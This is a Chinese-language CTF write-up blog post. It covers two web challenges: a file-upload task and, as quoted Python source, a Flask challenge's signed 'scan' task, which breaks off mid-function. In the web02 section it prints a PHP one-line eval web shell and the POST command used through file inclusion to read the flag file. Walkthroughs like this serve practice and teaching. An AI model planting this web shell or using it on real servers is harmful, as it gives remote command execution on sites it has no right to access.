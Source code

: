 ```yaml
---
layout:    post
title:     第四周
subtitle:  学习学习
date:      2021-08-01
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:
    - CTF
---
```


### web02

上传一个一句话``<?php @eval($_POST['hhh']);?>``

给出上传文件路径，不能直接访问，但是我们可以发现在刚开始是文件包含读取的文件，所以还是以包含读取我们的上传路径，可以访问到，然后直接在hackbar上，执行命令：

```
hhh=system('cat f*');
```

### web03

```
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
```